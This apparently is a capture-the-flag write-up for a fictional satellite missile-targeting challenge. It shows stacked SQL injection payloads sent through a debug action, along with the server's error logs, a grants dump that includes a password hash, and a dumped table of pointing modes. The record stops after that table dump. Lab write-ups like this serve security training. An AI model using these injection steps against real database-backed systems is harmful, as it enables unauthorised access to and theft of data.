 ## Objective
Thwart Jack's evil plan by re-aiming his missile at the Sun.

## Solution

#### Enable the missile targetting system app and get the directory service URI

```
....
INFO: URI: maltcp://10.1.1.1:1025/missile-targeting-system-Directory
```
#### Connect to the Parameter Service


#### Injecting SQL Queries to find the correct injection point

```
;USER();
```

````
[ WARN] (ActionsExecutor-thread-2) Error: 1064-42000: You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near 'USER()' at line 1
2023-12-28 16:17:33.951 esa.mo.nmf.apps.MissileTargetingSystemMCAdapter sqlDebug
WARNING: Debug action error: java.sql.SQLSyntaxErrorException: (conn=676) You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near 'USER()' at line 1
2023-12-28 16:17:33.957 esa.mo.nmf.apps.MissileTargetingSystemMCAdapter sqlDebug
WARNING: Debug action query: SELECT VERSION();USER();
````

```
;SELECT USER();
```
```
USER(): targeter@172.18.0.3 | 
```

#### Getting the rights on the tables
```
;SHOW GRANTS;
```
```
Grants for targeter@%: GRANT USAGE ON *.* TO `targeter`@`%` IDENTIFIED BY PASSWORD '*41E2CFE844C8F1F375D5704992440920F11A11BA' | 
Grants for targeter@%: GRANT SELECT, INSERT ON `missile_targeting_system`.`satellite_query` TO `targeter`@`%` | 
Grants for targeter@%: GRANT SELECT ON `missile_targeting_system`.`pointing_mode` TO `targeter`@`%` | 
Grants for targeter@%: GRANT SELECT ON `missile_targeting_system`.`messaging` TO `targeter`@`%` | 
Grants for targeter@%: GRANT SELECT ON `missile_targeting_system`.`target_coordinates` TO `targeter`@`%` | 
Grants for targeter@%: GRANT SELECT ON `missile_targeting_system`.`pointing_mode_to_str` TO `targeter`@`%` | 
```

#### Dumping tables data for juicy information
```
;SELECT * FROM pointing_mode_to_str;
```
```
id: 1 | numerical_mode: 0 | str_mode: Earth Point Mode | str_desc: When pointing_mode is 0, targeting system applies the target_coordinates to earth. | 
id: 2 | numerical_mode: 1 | str_mode: Sun Point Mode | str_desc: When pointing_mode is 1, targeting system points at the sun, ignoring the coordinates. | 
```
